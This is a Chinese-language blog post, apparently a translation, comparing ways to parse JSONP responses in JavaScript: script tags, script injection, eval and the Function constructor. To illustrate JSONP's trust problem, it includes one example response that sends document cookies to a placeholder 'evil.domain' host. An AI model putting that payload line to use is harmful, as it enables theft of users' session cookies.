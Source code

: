 ```yaml
---
layout: post
category : JavaScript
tagline: ""
tags : [json-p]
---
```

{% include JB/setup %}

<a href="" target="_blank">原文地址</a>

这篇文章主要是讲解`javascript`的技巧,一步步来分析如何解析`jsonp`返回的字符串内容更高效.

注意: 当然现在可以用<a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS" target="_blank">CROS</a>来解决跨域问题,不过仍然有大量的`jsonp`服务端api接口,一般是用来处理`ajax`请求

通过`jsonp`调用返回得到像这样的脚本`foo({"id":42})`字符串,如何高效的提取里面的内容呢?

### Classic JSON-P Handling

通常的做法是直接加载`jsonp`数据在附加的`<script>`元素中,假如下面的`url`可以直接获取数据:

```js

var s = document.createElement( "script" );
s.src = "http://some.api.url/?callback=foo&data=whatever";
document.head.appendChild( s );

```

假设`foo({"id":42})`是直接从上面的`url`返回的,并且在全局环境中存在`foo`这样的函数,然后最终执行方法得到里面的数据对象.

像这样的处理方式已经有很多库或者框架存在了,我之前也写了<a href="https://gist.github.com/1576277/f4aead6741e0d7b0c40db6601048d9db6be1a5f9" target="_blank">jXHR</a>库用来自动处理这种函数调用,而且提供了类似于`XHR`的语法:

```js

var x = new jXHR();

x.onreadystatechange = function(data) {
    if (x.readyState == 4) {
        console.log( data.id ); // 42
    }
};

x.open( "GET", "http://some.api.url/?callback=?&data=whatever" );

x.send();

```

### JSON-P roblems

上面的这种处理方式会产生一些问题.

第一个最常见的问题就是,全局环境中必须存在一个`foo(..)`这样的函数定义,一些`jsonp`接口允许返回像这样的`bar.foo(..)`回调,这种结构有时是不被允许的,即使`bar`是全局变量或者命名空间.当`js`和`web`向`es6`转变时,比如其中的`module`,当全局变量越重的时候，代码就会越来越不可维护.

不过,`jXHR`可以自动生成一个唯一的函数名(像`jXHR.cb123(..)`)来适应接口返回的名字,所以我们可以不用关心这些细节,因为自动生成的函数就在`jXHR`命名空间下,这点还是可以接受的.

但是这总归不是一个完美的解决方案,假如不需要库来实现解析的功能肯定是非常不错的.

另一个问题就是随着`jsonp`接口的增多，页面中需要增加的`script`元素就会增多,这会弄乱整个dom

虽然大部分的库(比如`jXHR`)会自动的清除掉用完的`script`元素,但是频繁的操作`dom`会降低整个页面的性能.

终于,出现了这篇文章<a href="http://json-p.org/" target="_blank">concerns over the safety/trustability of JSON-P</a>,因为`jsonp`只是随机的`js`,任何`js`都可以注入进来.

例如,假如返回下面这样的数据:

```js

foo({"id":42});(new Image()).src="http://evil.domain/?hijacking="+document.cookies;

```

就像你看到的，上面的代码会执行一些你想像不到的代码,获取到你的`cookies`了

<a href="http://json-p.org/" target="_blank">json-p.org</a>试图定义一个`jsonp`的子集,用来提供一些工具来对`jsonp`的内容进行验证,最后得到一个安全的数据内容.

但是你不能直接验证从`script`元素`url`返回的内容

所以,让我们看看其它的方案

### Script Injection

首先,你可以获取到`jsonp`返回的字符串内容(比如从同源的ajax请求返回),在解析它之前你可以进行某些处理

```js

var jsonp = "..";

// first, do some parsing, regex filtering, or other sorts of
// whitelist checks against the `jsonp` value to see if it's
// "safe"

// now, run it:
var s = document.createElement( "script" );
s.text = jsonp;
document.head.appendChild( s );

```

这里,我们使用`script injection`来运行`jsonp`代码(这样保证在任何时候可以对它进行处理)，通过设置`text`属性来存放内容(与放在`src`属性上完全不同)

当然这种方式仍然少不了全局函数或者命名空间来处理`jsonp`字符串，而且因为`script`标签元素的引用也会带上页面性能的损失.

另外就是以`script`为基础来处理`jsonp`都会有一个问题,就是不能处理异常,因为你没有任何时基来添加`try...catch..`代码(除非在`jsonp`字符串内部增加)

其它一个缺陷就是`script`深度依赖`browser`，假如代码想在`node`环境下使用的话,则不能使用它来处理

所以,还有别的选择吗?

### Direct Evaluation

也许你认为,为什么我们不能直接使用`eval(jsonp)`来解析内容呢,当然你可以这样做,不过随之而来的是一大堆的缺陷

通常反对使用`eval`,是因为它会用来执行`不可信任的代码`,不过这些细节我们可以提前通过其它手段让这些代码可信任,如果可以的话.

其实真实的原因是因为`eval`本身执行的问题,它会禁用变量词法作用域的性能优化,从而导致`js`代码的性能下降,所以你应该<a href="https://github.com/getify/You-Dont-Know-JS/blob/master/scope%20&%20closures/ch2.md#eval" target="_blank">never, ever use eval(..)</a>.

不过这里我们还有另外一种方案而且没有缺陷,那就是使用`Function(..)`构造函数,它不但可以直接计算代码在没有`script`的情况下(所以可以在`nodejs`下运行),而且不需要定义全局函数或者命名空间

下面的代码说明了它的实现:

```js

var jsonp = "..";

// parse/filter `jsonp`'s value if necessary

// wrap the JSON-P in a dynamically-defined function
var f = new Function( "foo", jsonp );

// `f` is now basically:
// function f(foo) {
//    foo({"id":42});
// }

// now, provide a non-global `foo()` to extract the JSON
f( function(json){
    console.log( json.id ); // 42
} )

```

所以,`new Function( "foo", "foo({\"id\":42})" )`创建了一个`function(foo){ foo({"id":42}) }`名为`f`的函数.

你能明白这里发生了什么吗?是的,`jsonp`调用`foo(..)`,但是`foo(..)`不需要任何存在的全局同名函数或者命名空间,只是在调用`f( function(json){ .. } )`时,注入了一个同名的本地参数,是不是非常不错.

所以:

1. 我们手动的解析`jsonp`内容,让我们有机会来对内容进行过滤处理
2. 我们不在需要任何全局函数或者命名空间来处理`jsonp`内容
3. `Function(..)`没有`eval(..)`那样的性能损失(因为它没有作用域的副作用)
4. 这种方案可以同时在`browser`或者`nodejs`环境下使用,因为它没有依赖`script`元素
5. 我们可以更好的进行异常控制,因为你可以在`f(..)`时添加`try..catch`,但是使用`script`的话是做不到的

这些是完胜`script`方案的

### 总结

是不是`Function(..)`就是最完美的方案呢?当然不是,但是它要比传统的`jsonp`处理方式要好多了.

所以,假如你仍然在使用`jsonp`接口调用的,有很多选择的话,你可以重新想想还有什么方案适合它,大部分情况下,老式的`script`方法是不推荐使用的.








